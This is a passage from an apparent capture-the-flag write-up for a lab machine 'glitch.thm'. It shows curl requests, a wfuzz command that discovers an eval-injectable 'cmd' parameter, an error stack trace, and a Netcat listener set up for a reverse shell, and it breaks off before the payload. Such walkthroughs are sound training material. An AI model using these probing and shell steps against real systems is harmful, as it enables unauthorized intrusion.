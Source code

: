 If we try to make a `POST` request to the same endpoint, we receive a different response:

```sh
curl -vvv -X POST glitch.thm/api/items
```

![b539892d4cad0d1ebd8667cc14385d59.png](/resources/fb18e96168aa449c9d1dbdf0c96bf3fc.png)

We can try to see if there are any more objects in this endpoint by fuzzing using [wfuzz](https://github.com/xmendez/wfuzz) with [this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/api/objects.txt):

```sh
wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt --hc 400 -X POST -u http://glitch.thm/api/items\?FUZZ\=test
```

After a while, we will find the `cmd` parameter:

![484372178a6d83edc96198306b903e8b.png](/resources/4e494f24b1444be89cf269c532db21e5.png)

When we try to run the `whoami` command we get an error in return:

```sh
curl -vvv -X POST http://glitch.thm/api/items/?cmd=whoami
```

![baf07b9d830127d343f4874268e849ce.png](/resources/d217e6faa60f42ecbeab0675802e4842.png)

Added line breaks to make it easier to read:

```html
<pre>ReferenceError: whoami is not defined
<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)
<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)
<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)
<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)
<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22
<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)
<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)
<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
```

We can see that it is running Node.js and uses the `eval` function which will execute any command on the system.

To get a reverse shell, we will first start a [Netcat](https://linux.die.net/man/1/nc) listener on our attacking machine:

```sh
nc -nvlp 4444
```

